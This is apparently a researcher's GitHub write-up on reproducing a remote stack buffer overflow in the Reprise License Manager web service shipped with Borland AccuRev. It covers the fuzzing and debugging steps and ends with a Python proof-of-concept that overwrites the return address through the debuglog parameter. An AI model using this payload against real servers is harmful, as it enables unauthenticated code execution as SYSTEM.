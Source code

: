 # Borland-AccuRev-StackoverFlow
****
mail :   Firozimaysam@gmail.com 
twitter : https://twitter.com/R00tkitSMM 

I try to Exploit recently published  vulnerability in Borland AccuRev 

http://www.zerodayinitiative.com/advisories/ZDI-15-416/

````
his vulnerability allows remote attackers to execute arbitrary code on 
vulnerable installations of Borland AccuRev. Authentication is not required
to exploit this vulnerability.

The specific flaw exists within the service_startup_doit functionality
of the Reprise License Manager service. The issue lies in the handling 
of the licfile parameter which can result in overflowing a stack-based buffer.
An attacker could leverage this vulnerability to execute code under the context of SYSTEM.
````
there was two fake information in ZDI report

1. mapping between string and function is "service_Setup_doit" not "service_startup_doit"
2. vulnerable parameter is debuglog not licfile 

RLM come with AccuRev but it can be directly download  by following link:  http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe

searching service_startup_doit string inside rlm.exe dont have any results so i changed it to service_  to get following strings

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/stringInIdapro.png)

after some reversing and  analyzing functions that use above string i decide to use another way to finding bug 

ZDI said vulnerable function is accessible remotely so I start read RLM manual to find out how it work 
RLM have Web interface it start http server on port 5054 , with the help of burpsuite we can view all http parameters in post or get requests,
after fuzzing Web interface i found target "licfile" parameter in one Post request
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/burpsuite.png)

for checking licfile parameter vulnerability with help of BurpSuite i send big string parameter to web server
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/bigbuffer.png)
but rlm.exe send error  response  without any crash 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/httperror.png)
i set breakpoint in Immunity debugger to track how rlm.exe validate size of string 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/asm-check.png)

based  on above asm code rlm check string size be less than or equal to 0x400 to prevent buffer overflow so i thought my rlm.exe version is not vulnerable but i start fuzzing other attack vectors ,so i find out if you send big  string in debuglog parameter and  if string is less than  0x400 to bypass above check you can overwrite return value in stack  with  notorious 0x41414141 in rlm.exe so i as said  vulnerable function is debuglog not licfile .

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/eip.png)

i checked rlm.exe and  it does not support ASLR but there was a big problem,rlm.exe contains null in its address,so we can't use any address to build our ROP inside rlm.exeو because it use string copy functions and it copy string in stack until null byte.
so exploiting this vulnerability is so simple in XP,just return to shellcode inside stack without ROP.

````
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= {
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"\x41\x41\x41\x41",
    'licfile':'C:\Users\username\Desktop\rlm-old'
    }
print requests.post(url, data=data).text
``````

